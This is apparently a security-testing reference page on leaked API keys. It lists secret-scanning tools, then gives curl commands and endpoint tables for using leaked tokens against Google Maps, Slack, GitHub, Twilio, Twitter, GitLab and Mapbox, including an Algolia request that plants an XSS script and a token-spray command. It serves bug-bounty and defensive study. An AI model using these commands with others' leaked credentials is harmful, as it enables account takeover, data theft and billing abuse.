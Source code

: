 # API Key Leaks

> The API key is a unique identifier that is used to authenticate requests associated with your project. Some developers might hardcode them or leave it on public shares.

## Summary

- [Tools](#tools)
- [Exploit](#exploit)
    - [Google Maps](#google-maps)
    - [Algolia](#algolia)
    - [Slack API Token](#slack-api-token)
    - [Facebook Access Token](#facebook-access-token)
    - [Github client id and client secret](#github-client-id-and-client-secret)
    - [Twilio Account_sid and Auth Token](#twilio-account_sid-and-auth-token)
    - [Twitter API Secret](#twitter-api-secret)
    - [Twitter Bearer Token](#twitter-bearer-token)
    - [Gitlab Personal Access Token](#gitlab-personal-access-token)
    - [HockeyApp API Token](#hockeyapp-api-token)
    - [Mapbox API Token](#Mapbox-API-Token)


## Tools

- [momenbasel/KeyFinder](https://github.com/momenbasel/KeyFinder) - is a tool that let you find keys while surfing the web
- [streaak/keyhacks](https://github.com/streaak/keyhacks) - is a repository which shows quick ways in which API keys leaked by a bug bounty program can be checked to see if they're valid
- [trufflesecurity/truffleHog](https://github.com/trufflesecurity/truffleHog) - Find credentials all over the place
    ```ps1
    ## Scan a Github Organization
    docker run --rm -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest github --org=trufflesecurity
    
    ## Scan a GitHub Repository, its Issues and Pull Requests
    docker run --rm -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest github --repo https://github.com/trufflesecurity/test_keys --issue-comments --pr-comments
   
    ## Scan a Docker image for verified secrets
    docker run --rm -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest docker --image trufflesecurity/secrets
    ```
- [aquasecurity/trivy](https://github.com/aquasecurity/trivy) - General purpose vulnerability and misconfiguration scanner which also searches for API keys/secrets
- [projectdiscovery/nuclei-templates](https://github.com/projectdiscovery/nuclei-templates) - Use these templates to test an API token against many API service endpoints
    ```powershell
    nuclei -t token-spray/ -var token=token_list.txt
    ```
- [blacklanternsecurity/badsecrets](https://github.com/blacklanternsecurity/badsecrets) - A library for detecting known or weak secrets on across many platforms
    ```ps1
    python examples/cli.py --url http://example.com/contains_bad_secret.html
    python examples/cli.py eyJhbGciOiJIUzI1NiJ9.eyJJc3N1ZXIiOiJJc3N1ZXIiLCJVc2VybmFtZSI6IkJhZFNlY3JldHMiLCJleHAiOjE1OTMxMzM0ODMsImlhdCI6MTQ2NjkwMzA4M30.ovqRikAo_0kKJ0GVrAwQlezymxrLGjcEiW_s3UJMMCo
    python ./badsecrets/examples/blacklist3r.py --viewstate /wEPDwUJODExMDE5NzY5ZGQMKS6jehX5HkJgXxrPh09vumNTKQ== --generator EDD8C9AE
    python ./badsecrets/examples/telerik_knownkey.py --url http://vulnerablesite/Telerik.Web.UI.DialogHandler.aspx
    python ./badsecrets/examples/symfony_knownkey.py --url https://localhost/
    ```
- [mazen160/secrets-patterns-db](https://github.com/mazen160/secrets-patterns-db) - Secrets Patterns DB: The largest open-source Database for detecting secrets, API keys, passwords, tokens, and more.
- [d0ge/sign-saboteur](https://github.com/d0ge/sign-saboteur) - SignSaboteur is a Burp Suite extension for editing, signing, verifying various signed web tokens


## Exploit

The following commands can be used to takeover accounts or extract personal information from the API using the leaked token.

### Google Maps 

Use : https://github.com/ozguralp/gmapsapiscanner/

|  Name                 |  Endpoint |
| --------------------- | --------- |
|  Static Maps          | https://maps.googleapis.com/maps/api/staticmap?center=45%2C10&zoom=7&size=400x400&key=KEY_HERE   |
|  Streetview           | https://maps.googleapis.com/maps/api/streetview?size=400x400&location=40.720032,-73.988354&fov=90&heading=235&pitch=10&key=KEY_HERE |
|  Embed                | https://www.google.com/maps/embed/v1/place?q=place_id:ChIJyX7muQw8tokR2Vf5WBBk1iQ&key=KEY_HERE  |
|  Directions           | https://maps.googleapis.com/maps/api/directions/json?origin=Disneyland&destination=Universal+Studios+Hollywood4&key=KEY_HERE    |
|  Geocoding            | https://maps.googleapis.com/maps/api/geocode/json?latlng=40,30&key=KEY_HERE |
|  Distance Matrix      | https://maps.googleapis.com/maps/api/distancematrix/json?units=imperial&origins=40.6655101,-73.89188969999998&destinations=40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.659569%2C-73.933783%7C40.729029%2C-73.851524%7C40.6860072%2C-73.6334271%7C40.598566%2C-73.7527626%7C40.659569%2C-73.933783%7C40.729029%2C-73.851524%7C40.6860072%2C-73.6334271%7C40.598566%2C-73.7527626&key=KEY_HERE   |
|  Find Place from Text | https://maps.googleapis.com/maps/api/place/findplacefromtext/json?input=Museum%20of%20Contemporary%20Art%20Australia&inputtype=textquery&fields=photos,formatted_address,name,rating,opening_hours,geometry&key=KEY_HERE    |
|  Autocomplete         | https://maps.googleapis.com/maps/api/place/autocomplete/json?input=Bingh&types=%28cities%29&key=KEY_HERE    |
|  Elevation            | https://maps.googleapis.com/maps/api/elevation/json?locations=39.7391536,-104.9847034&key=KEY_HERE  |
|  Timezone             | https://maps.googleapis.com/maps/api/timezone/json?location=39.6034810,-119.6822510&timestamp=1331161200&key=KEY_HERE   |
|  Roads                | https://roads.googleapis.com/v1/nearestRoads?points=60.170880,24.942795|60.170879,24.942796|60.170877,24.942796&key=KEY_HERE    |
|  Geolocate            | https://www.googleapis.com/geolocation/v1/geolocate?key=KEY_HERE |


Impact:

* Consuming the company's monthly quota or can over-bill with unauthorized usage of this service and do financial damage to the company
* Conduct a denial of service attack specific to the service if any limitation of maximum bill control settings exist in the Google account

### Algolia 

```powershell
curl --request PUT \
  --url https://<application-id>-1.algolianet.com/1/indexes/<example-index>/settings \
  --header 'content-type: application/json' \
  --header 'x-algolia-api-key: <example-key>' \
  --header 'x-algolia-application-id: <example-application-id>' \
  --data '{"highlightPreTag": "<script>alert(1);</script>"}'
```

### Slack API Token

```powershell
curl -sX POST "https://slack.com/api/auth.test?token=xoxp-TOKEN_HERE&pretty=1"
```

### Facebook Access Token

```powershell
curl https://developers.facebook.com/tools/debug/accesstoken/?access_token=ACCESS_TOKEN_HERE&version=v3.2
```

### Github client id and client secret

```powershell
curl 'https://api.github.com/users/whatever?client_id=xxxx&client_secret=yyyy'
```

### Twilio Account_sid and Auth token

```powershell
curl -X GET 'https://api.twilio.com/2010-04-01/Accounts.json' -u ACCOUNT_SID:AUTH_TOKEN
```

### Twitter API Secret

```powershell
curl -u 'API key:API secret key' --data 'grant_type=client_credentials' 'https://api.twitter.com/oauth2/token'
```

### Twitter Bearer Token

```powershell
curl --request GET --url https://api.twitter.com/1.1/account_activity/all/subscriptions/count.json --header 'authorization: Bearer TOKEN'
```

### Gitlab Personal Access Token

```powershell
curl "https://gitlab.example.com/api/v4/projects?private_token=<your_access_token>"
```


### HockeyApp API Token

```powershell
curl -H "X-HockeyAppToken: ad136912c642076b0d1f32ba161f1846b2c" https://rink.hockeyapp.net/api/2/apps/2021bdf2671ab09174c1de5ad147ea2ba4
```


### Mapbox API Token

A Mapbox API Token is a JSON Web Token (JWT). If the header of the JWT is `sk`, jackpot. If it's `pk` or `tk`, it's not worth your time.

* Check token validity: `curl "https://api.mapbox.com/tokens/v2?access_token=YOUR_MAPBOX_ACCESS_TOKEN"`
* Get list of all tokens associated with an account (only works if the token is a Secret Token (sk), and has the appropriate scope): `curl "https://api.mapbox.com/tokens/v2/MAPBOX_USERNAME_HERE?access_token=YOUR_MAPBOX_ACCESS_TOKEN"`


## References

* [Finding Hidden API Keys & How to use them - Sumit Jain - August 24, 2019](https://medium.com/@sumitcfe/finding-hidden-api-keys-how-to-use-them-11b1e5d0f01d)
* [Private API key leakage due to lack of access control - yox - August 8, 2018](https://hackerone.com/reports/376060)
* [Saying Goodbye to my Favorite 5 Minute P1 - Allyson O'Malley - January 6, 2020](https://www.allysonomalley.com/2020/01/06/saying-goodbye-to-my-favorite-5-minute-p1/)
* [Mapbox API Token Documentation](https://docs.mapbox.com/help/troubleshooting/how-to-use-mapbox-securely/)
* [Introducing SignSaboteur: forge signed web tokens with ease - Zakhar Fedotkin - 22 May 2024](https://portswigger.net/research/introducing-signsaboteur-forge-signed-web-tokens-with-ease)